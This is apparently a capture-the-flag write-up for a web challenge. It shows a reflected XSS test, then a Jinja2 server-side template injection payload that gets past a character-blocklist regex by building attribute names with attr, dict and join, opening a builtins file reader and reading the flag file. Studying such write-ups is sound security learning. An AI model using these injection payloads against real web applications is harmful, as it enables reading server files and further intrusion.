



# EHC Hair Salon



**Category:** Web Exploitation

**Source code:**
[app.py](./media/app.py)

---

## 1. Analyze:

Messing around with the page, we can see a POST form in the main page.


I tried insert a string: `aaaaa` and here's what I got.



After inserting javascript, in this case: `<script>alert(1)</script>`, we can see that this page XSS vulnerability.



From what I have learned, [XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) can possibly leads to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). We also know that we are unable to use any of these characters:

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"
```

## 2. Payload
Basically, the idea is to inject the following payload to read flag.

```
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
```
But we can't do that, since it would trigger this:
```python
if '{' in hair_type and re.search(regex,hair_type):
    return render_template_string(error_page)
```
Then, the `error_page` would be rendered instead. After some research, I found this payload from a CTF write-up which can bypass the `regex` filter:
```
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```

Submit the payload and we get: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`
## References
[SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file)

[Final payload](https://hackmd.io/@d4rkp0w4r/idekCTF-2021#Baby-JinJail-and-jinjail)
